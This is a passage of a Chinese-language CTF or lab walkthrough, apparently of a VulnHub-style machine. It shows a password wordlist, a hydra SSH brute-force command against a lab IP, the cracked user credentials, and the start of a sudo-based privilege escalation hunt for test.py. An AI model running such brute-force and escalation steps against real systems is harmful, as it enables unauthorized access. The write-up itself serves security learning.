 ```
4sfd87sfd1
RocksOff
TC&TheBoyz
B8m#48sd
Pebbles
BamBam01
UrAG0D!
Passw0rd
yN72#dsd
ILoveRachel
3248dsds7s
smellycats
YR3BVxxxw87
Ilovepeepee
Hawaii-Five-0
```

```sh
hydra -L username.txt -P passwd.txt ssh://192.168.84.130
```

爆出三个用户。（爆两次才爆出来，以后注意这种特殊情况）
```
chandlerb UrAG0D!
joeyt Passw0rd
janitor Ilovepeepee
```
## 3. 提权
### 发现新的密码本，再次爆破
chandlerb, joeyt 都没什么好操作的，发现 janitor 用户下有几个密码，放入 `passwd.txt`，继续爆破
![[QQ_1724375538508.png]]

又爆出了一个用户
```
fredf B4-Tru3-001
```

### 代码审计，提权成功
列出可执行的命令，发现有一条可以 sudo，并且不要密码！！！
![[QQ_1724375912576.png]]

执行一下试试，提示 `test.py`
![[QQ_1724376142012.png]]

于是搜索这个文件
```sh
find / -name test.py 2>/dev/null 
```

发现就在前面几个目录里
```
/opt/devstuff/test.py
```
